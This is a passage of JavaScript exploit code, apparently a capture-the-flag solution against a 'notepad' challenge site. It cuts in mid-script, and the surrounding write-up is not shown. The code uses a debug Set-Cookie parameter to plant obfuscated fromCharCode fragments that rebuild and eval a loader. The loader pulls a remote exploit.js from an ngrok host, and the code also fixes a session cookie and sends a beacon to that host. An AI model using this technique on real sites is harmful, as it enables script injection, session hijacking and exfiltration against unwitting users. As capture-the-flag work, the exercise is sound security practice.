 ```markup
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20D%3DC%2BString.fromCharCode%2832%2C100%2C111%2C99%2C117%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20E%3DD%2BString.fromCharCode%28109%2C101%2C110%2C116%2C46%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20F%3DE%2BString.fromCharCode%2899%2C114%2C101%2C97%2C116%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20G%3DF%2BString.fromCharCode%28101%2C69%2C108%2C101%2C109%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20H%3DG%2BString.fromCharCode%28101%2C110%2C116%2C40%2C39%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20I%3DH%2BString.fromCharCode%28115%2C99%2C114%2C105%2C112%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20J%3DI%2BString.fromCharCode%28116%2C39%2C41%2C59%2C110%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20K%3DJ%2BString.fromCharCode%28101%2C119%2C83%2C99%2C114%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20L%3DK%2BString.fromCharCode%28105%2C112%2C116%2C46%2C115%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20M%3DL%2BString.fromCharCode%28114%2C99%2C32%2C61%2C32%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20N%3DM%2BString.fromCharCode%2839%2C104%2C116%2C116%2C112%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20O%3DN%2BString.fromCharCode%2858%2C47%2C47%2C50%2C101%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20P%3DO%2BString.fromCharCode%2850%2C101%2C56%2C48%2C97%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20Q%3DP%2BString.fromCharCode%2853%2C102%2C49%2C53%2C51%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20R%3DQ%2BString.fromCharCode%2846%2C110%2C103%2C114%2C111%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20S%3DR%2BString.fromCharCode%28107%2C46%2C105%2C111%2C47%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20T%3DS%2BString.fromCharCode%28101%2C120%2C112%2C108%2C111%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20U%3DT%2BString.fromCharCode%28105%2C116%2C46%2C106%2C115%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20V%3DU%2BString.fromCharCode%2839%2C59%2C116%2C104%2C105%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20W%3DV%2BString.fromCharCode%28115%2C46%2C97%2C112%2C112%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20X%3DW%2BString.fromCharCode%28101%2C110%2C100%2C67%2C104%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20Y%3DX%2BString.fromCharCode%28105%2C108%2C100%2C40%2C110%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20Z%3DY%2BString.fromCharCode%28101%2C119%2C83%2C99%2C114%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20a%3DZ%2BString.fromCharCode%28105%2C112%2C116%2C41%2C59%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20b%3Deval%28a%29%3B");
	
	await wait(1000);
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=id=5e732a1878be2342dbfeff5fe3ca5aa3%3B+Path=/get");
	
	var img = new Image();
	img.src = 'http://2e2e80a5f153.ngrok.io/?data=' + 'Set cookies successfully.';
	
	await wait(1000);
	window.location.href = "http://chall.notepad1.gq:1111/";
})();
</script>
```
